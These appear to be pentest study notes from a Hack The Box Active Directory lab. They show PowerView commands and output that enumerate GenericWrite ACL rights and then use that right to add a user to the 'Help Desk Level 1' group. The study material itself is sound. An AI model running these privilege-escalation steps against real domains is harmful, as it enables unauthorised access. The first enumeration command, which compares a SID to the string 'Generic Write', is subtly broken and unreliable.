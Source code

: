 ## Enumerate Generic Write on Users
### Enumerate Generic Write To All Users

```python

Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq "Generic Write"} -Verbose

AceType               : AccessAllowed
ObjectDN              : CN=Help Desk Level 1,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ListChildren, ReadProperty, GenericWrite
.
.
<SNIP>

```
### Enumerate Generic Write to spesific user
```python

PS C:\htb> $sid2 = Convert-NameToSid damundsen
PS C:\htb> Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2} -Verbose

AceType               : AccessAllowed
ObjectDN              : CN=Help Desk Level 1,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ListChildren, ReadProperty, GenericWrite
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3842939050-3880317879-2865463114-4022
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1176
AccessMask            : 131132
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed

*Now we can see that our user damundsen has GenericWrite privileges over the Help Desk Level 1 group. 

```

### Abusing Generic Write
*after we know user damundsen has generiwrite to HELP DESK LEVEL 1*
*its mean that we can add any users or ourself to this groups and use anyrights this group has*

**Adding ourself to HELP DESK LEVEL 1 Groups**
```python
PS C:\htb> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Add-DomainGroupMember] Adding member 'damundsen' to group 'Help Desk Level 1'
````
**Confirming that ourself(damundsen) added to Help Desk Level 1 Groups**
```python
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName

MemberName
----------
busucher
spergazed

<SNIP>

damundsen
dpayne
```
